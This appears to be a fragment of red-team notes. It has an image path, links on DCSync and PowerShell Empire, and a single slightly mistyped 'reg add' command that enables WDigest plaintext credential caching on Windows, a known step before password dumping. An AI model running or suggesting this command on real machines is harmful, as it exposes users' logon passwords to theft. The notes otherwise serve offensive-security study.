 ```shell reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDige /v UseLogonCredential /t REG_DWORD /d 1 f```
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync


Empire Refs:
- https://www.ired.team/offensive-security/red-team-infrastructure/powershell-empire-101
- https://blog.harmj0y.net/empire/expanding-your-empire/
